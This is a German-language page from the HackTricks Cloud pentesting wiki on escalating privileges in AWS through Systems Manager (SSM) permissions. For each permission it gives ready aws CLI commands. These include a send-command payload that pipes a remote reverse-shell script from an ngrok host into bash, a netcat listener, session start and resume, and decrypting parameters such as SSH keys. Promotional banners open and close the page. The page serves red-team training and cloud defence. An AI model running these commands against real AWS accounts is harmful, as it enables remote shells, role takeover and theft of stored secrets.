 # AWS - SSM Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## SSM

Für weitere Informationen zu SSM siehe:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ein Angreifer mit der Berechtigung **`ssm:SendCommand`** kann **Befehle in Instanzen ausführen**, die den Amazon SSM-Agent ausführen, und **die IAM-Rolle kompromittieren**, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Im Falle, dass Sie diese Technik verwenden, um Berechtigungen innerhalb einer bereits kompromittierten EC2-Instanz zu eskalieren, könnten Sie den Rev-Shell einfach lokal erfassen mit:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potenzielle Auswirkungen:** Direktes Privilegien-Eskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agents angehängt sind.

### `ssm:StartSession`

Ein Angreifer mit der Berechtigung **`ssm:StartSession`** kann **eine SSH-ähnliche Sitzung in Instanzen** starten, die den Amazon SSM-Agent ausführen, und **die IAM-Rolle kompromittieren**, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Um eine Sitzung zu starten, muss das **SessionManagerPlugin** installiert sein: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenzielle Auswirkungen:** Direktes Privilegien-Eskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM Agents angehängt sind.

#### Privilegien-Eskalation zu ECS

Wenn **ECS-Aufgaben** mit **`ExecuteCommand` aktiviert** ausgeführt werden, können Benutzer mit ausreichenden Berechtigungen `ecs execute-command` verwenden, um einen Befehl innerhalb des Containers auszuführen.\
Laut [**der Dokumentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) wird dies durch die Erstellung eines sicheren Kanals zwischen dem Gerät, das Sie zur Initiierung des "_exec_"-Befehls verwenden, und dem Zielcontainer mit SSM Session Manager durchgeführt.\
Daher können Benutzer mit `ssm:StartSession` eine Shell innerhalb von ECS-Aufgaben erhalten, wenn diese Option aktiviert ist, indem sie einfach ausführen:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
**Potenzielle Auswirkungen:** Direktes Privilegien-Eskalation zu den `ECS`IAM-Rollen, die an laufende Aufgaben mit aktiviertem `ExecuteCommand` angehängt sind.

### `ssm:ResumeSession`

Ein Angreifer mit der Berechtigung **`ssm:ResumeSession`** kann eine SSH-ähnliche Sitzung in Instanzen, die den Amazon SSM-Agenten ausführen, **neu starten**, wenn sich die Sitzung im **getrennten** SSM-Sitzungszustand befindet, und die IAM-Rolle **kompromittieren**, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenzielle Auswirkungen:** Direktes Privilege Escalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit laufenden SSM-Agents angehängt sind und getrennte Sitzungen.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ein Angreifer mit den genannten Berechtigungen kann die **SSM-Parameter auflisten** und **im Klartext lesen**. In diesen Parametern können häufig **sensible Informationen** wie SSH-Schlüssel oder API-Schlüssel gefunden werden.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenzielle Auswirkungen:** Finden von sensiblen Informationen innerhalb der Parameter.

### `ssm:ListCommands`

Ein Angreifer mit dieser Berechtigung kann alle gesendeten **Befehle** auflisten und hoffentlich **sensible Informationen** darin finden.
```
aws ssm list-commands
```
**Potenzielle Auswirkungen:** Finden von sensiblen Informationen innerhalb der Befehlszeilen.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ein Angreifer mit diesen Berechtigungen kann alle gesendeten **Befehle auflisten** und die generierte Ausgabe lesen, in der Hoffnung, **sensible Informationen** darin zu finden.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenzielle Auswirkungen:** Finden sensibler Informationen im Output der Befehlszeilen.

### Codebuild

Sie können auch SSM verwenden, um Zugriff auf ein Codebuild-Projekt zu erhalten, das gerade erstellt wird:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
